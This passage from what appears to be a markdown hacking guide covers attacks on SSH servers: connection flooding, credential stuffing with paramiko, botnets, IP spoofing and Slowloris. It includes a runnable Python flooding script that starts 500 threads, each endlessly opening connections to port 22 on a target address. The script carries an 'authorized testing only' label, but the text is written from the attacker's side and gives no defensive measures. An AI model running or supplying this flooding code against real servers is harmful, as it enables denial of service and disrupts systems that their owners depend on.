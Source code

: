 ### Attack Crafting: From Connection Flooding to Credential Stuffing
Once a target is identified, the next phase is attack construction:
- **Connection Flooding:**  
  Opening hundreds of simultaneous SSH connections to exhaust server resources.
- **Credential Stuffing:**  
  Automating login attempts with common credentials via Python’s paramiko library.
  
*Example: Connection Flooding Script (for authorized testing only):*
```python
import socket
import threading

target_ip = "192.168.1.100"
target_port = 22

def attack():
    while True:
        try:
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((target_ip, target_port))
            s.send(b"NOISE")
        except:
            pass

for _ in range(500):
    threading.Thread(target=attack).start()
```
*Link to: [Automated Credential Stuffing](#automated-credential-stuffing) for another vector.*

### Sustaining the Onslaught: Botnets, Spoofing & Evasion
Beyond initial flooding, sophisticated attackers:
- **Deploy Botnets:**  
  Harnessing compromised IoT devices for massive parallel attacks.
- **Use IP Spoofing:**  
  Masking the origin of the attack by forging packet headers.
- **Employ Slowloris Techniques:**  
  Keeping connections open to maximize resource consumption.
  
*These techniques bridge into our next section on advanced scripting.*

---

Python Tools & Advanced Scripting Techniques
----------------------------------------------
### Core Libraries: socket, paramiko, scapy
- **socket:**  
  For raw network operations and connection flooding.
- **paramiko:**  
  Automates SSH connections, useful for credential stuffing.
- **scapy:**  
  Enables crafting custom packets, crucial for IP spoofing and SYN/UDP flooding.
